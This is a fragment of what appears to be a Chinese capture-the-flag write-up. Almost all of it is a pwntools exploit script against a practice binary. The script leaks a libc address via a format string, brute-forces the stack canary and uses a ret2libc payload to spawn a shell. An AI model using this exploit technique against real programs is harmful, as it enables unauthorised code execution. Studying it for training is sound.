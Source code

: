 爆破canary成功之后就可以getshell了

```python
    from pwn import *

    p = process('../Desktop/pwn2')
    conut = 0
    while True:
        conut += 1
        canary = '\x00'
        print '[+] Starting...'
        for i in xrange(1,4):
            flag = i
            for j in xrange(0,256):
                p.sendline('Y')
                p.recv()
                p.sendline('%19$p')
                p.recvuntil('Welcome to the game')
                leak_libc_addr = int(p.recv(11),16)
                p.recv()
                payload = 'A'*16
                payload += canary
                payload += chr(j)
                p.send(payload)
                if("***" != p.recv(3)):
                    canary += chr(j)
                    flag = 0
                    log.info('Find the %dth byte of canary : %#x'%(4-i,j))
                    break
            if flag == i:
                print "[-] Exploit failed"
                break
    log.info('Canary is %#x' %(u32(canary)))
    elf = ELF('/lib/i386-linux-gnu/libc.so.6')
    system_offset = elf.symbols['system']
    binsh_offset = next(elf.search('/bin/sh'))
    system_addr = leak_libc_addr - 0x2EBF0 - 0x1B + system_offset
    binsh_addr = leak_libc_addr - 0x2EBF0 - 0x1B + binsh_offset
    log.info('System address is at %#x, /bin/sh address is at %#x' %(system_addr, binsh_addr))


    payload = 'A'*16
    payload += canary
    payload += 'B'*12
    payload += p32(system_addr)
    payload += p32(0x08048670)
    payload += p32(binsh_addr)

    p.sendline('Y') # [*] Do you love me?
    p.recv()
    p.sendline('A') # [*] Input Your name please:
    p.recv()
    p.send(payload) # [*] Input Your Id:
    sleep(3)
    p.interactive()
```
